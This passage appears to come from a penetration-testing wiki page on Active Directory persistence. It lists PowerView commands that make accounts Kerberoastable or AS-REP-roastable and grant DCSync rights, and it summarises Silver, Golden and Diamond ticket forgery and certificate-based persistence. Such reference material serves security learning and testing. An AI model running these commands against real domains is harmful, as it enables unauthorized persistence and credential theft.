### Privesc as Persistence

Some of the techniques discussed before can be used for persistence.\
For example you could:

*   Make users vulnerable to [**Kerberoast**](kerberoast.md)

    ```powershell
    Set-DomainObject -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}r
    ```
*   Make users vulnerable to [**ASREPRoast**](asreproast.md)

    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```
*   Grant [**DCSync**](./#dcsync) privileges to a user

    ```powershell
    Add-DomainObjectAcl -TargetIdentity "DC=SUB,DC=DOMAIN,DC=LOCAL" -PrincipalIdentity bfarmer -Rights DCSync
    ```

### Silver Ticket

The Silver ticket attack is based on **crafting a valid TGS for a service once the NTLM hash of service is owned** (like the **PC account hash**). Thus, it is possible to **gain access to that service** by forging a custom TGS **as any user** (like privileged access to a computer).


[silver-ticket.md](silver-ticket.md)


### Golden Ticket

A valid **TGT as any user** can be created **using the NTLM hash of the krbtgt AD account**. The advantage of forging a TGT instead of TGS is being **able to access any service** (or machine) in the domain ad the impersonated user.


[golden-ticket.md](golden-ticket.md)


### Diamond Ticket

These are like golden tickets forged in a way that **bypasses common golden tickets detection mechanisms.**


[diamond-ticket.md](diamond-ticket.md)


### **Certificates Account Persistence**

**Having certificates of an account or being able to request them** is a very good way to be able to persist in the users account (even if he changes the password):


[account-persistence.md](ad-certificates/account-persistence.md)
